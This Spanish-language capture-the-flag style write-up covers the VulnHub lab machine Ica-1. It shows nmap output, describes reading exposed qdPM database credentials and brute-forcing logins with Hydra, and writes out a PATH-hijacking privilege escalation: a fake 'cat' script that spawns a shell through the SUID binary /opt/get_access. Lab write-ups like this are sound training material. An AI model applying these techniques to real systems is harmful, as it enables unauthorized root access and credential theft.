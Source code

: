 ```yaml
---
layout: single
title: Ica1 - VulnHub
excerpt: "Ica-1 es una máquina vulnerable de VulnHub que presenta una vulnerabilidad que nos permite visualizar archivos críticos de la configuración a través de la base de datos MySQL. Una vez dentro de la base de datos, identificamos una tabla que contiene usuarios y contraseñas, que exploramos con Hydra para verificar la validez de las credenciales. La escalada de privilegios se basa en un mal manejo al llamar a programas."
date: 2023-11-13
classes: wide
header:
  teaser: /assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png
  teaser_home_page: true
categories:
  - vulnhub 
  - cxdxnt
tags:  
  - suid
  - rpcbind
  - mount
---
```

![](/assets/images/vulnhub-writeup-pinkys/logo_vulnhub.png)

Ica-1 es una máquina vulnerable de VulnHub que presenta una vulnerabilidad que nos permite visualizar archivos críticos de la configuración a través de la base de datos MySQL. Una vez dentro de la base de datos, identificamos una tabla que contiene usuarios y contraseñas, que exploramos con Hydra para verificar la validez de las credenciales. La escalada de privilegios se basa en un mal manejo al llamar a programas.


## Enumeración

Empezamos con un reconocimiento de puertos y servicios a través de la herramienta nmap. En el cual logramos detectar varios servicios.

```bash
# Nmap 7.93 scan initiated Tue Nov  7 12:30:25 2023 as: nmap -sCV -p22,80,3306,33060 -oN vulnscan.nmap 192.168.56.22
Nmap scan report for 192.168.56.22
Host is up (0.00034s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e77d9cbf80541b9e44571c101acda93 (RSA)
|   256 4051934bf83785fda5f4d727416ca0a5 (ECDSA)
|_  256 098560c535c14d837693fbc7f0cd7b8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: qdPM | Login
3306/tcp  open  mysql   MySQL 8.0.26
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolNew, ConnectWithDatabase, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsTransactions, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, FoundRows, LongColumnFlag, SupportsCompression, LongPassword, SwitchToSSLAfterHandshake, Support41Auth, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: S.oCJWT`/1Ajkw{"\x01%n\x02
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=11/7%Time=654A5818%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\
SF:x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20me
SF:ssage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LAN
SF:Desk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRP
SF:C,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid
SF:\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10
SF:\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
MAC Address: 08:00:27:91:CD:A8 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  7 12:30:40 2023 -- 1 IP address (1 host up) scanned in 15.02 seconds
```


## Analisis 

Empezamos por enumerar el puerto 80(http), y notamos que esta corriendo un **qdPM 9.2***.


![](/assets/images/vulnhub-writeup-ica1/ica1-version.png)

Si buscamos exploits para el servicio, vemos uno muy interesante.

![](/assets/images/vulnhub-writeup-ica1/ica1-exploitsearch.png)

El exploits informa que qdPM expone un archivo que contiene información sobre la base de datos.

![](/assets/images/vulnhub-writeup-ica1/ica1-sql.png)

Pasamos a conectarnos.

![](/assets/images/vulnhub-writeup-ica1/ica1-conectarmysql.png)

Copiamos las palabras seleccionadas por el cuadro rojo en dos archivos distintos. Los valores de password, lo tenemos que decodificar.

![](/assets/images/vulnhub-writeup-ica1/ica1-base64.png)

Tendria que quedarnos de la siguiente manera. con tr hacemos que todas las palabras con mayusculas pasen a minusculas.


![](/assets/images/vulnhub-writeup-ica1/ica1-contraseñas.png)

Utilizaremos hydra para identificar que credenciales son correctas.

![](/assets/images/vulnhub-writeup-ica1/ica1-fuerzaBruta.png)

## Shell- Travis

Al ingresar al sistema, ejecutamos el siguiente comando.

```bash
travis@debian:/home$ find / -perm -4000 2>/dev/null
/opt/get_access
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

El archivo con nombre **/opt/get_access** me llama la atención. Por lo que le procedo analizarlo con la herramienta "strings".

![](/assets/images/vulnhub-writeup-ica1/ica1-cat.png)

Vemos algo muy interesante, esta haciendo un mal llamado al programa cat, que esto efectua un PATH HIJACKING.Ejecutamos los siguientes comandos.

```bash
travis@debian:/dev/shm$ export PATH=.:$PATH
travis@debian:/dev/shm$ chmod +x cat
travis@debian:/dev/shm$ strings cat
#!/bin/sh
sh
travis@debian:/dev/shm$ 
```

Ahora ejecutamos el script.

![](/assets/images/vulnhub-writeup-ica1/ica1-root.png)
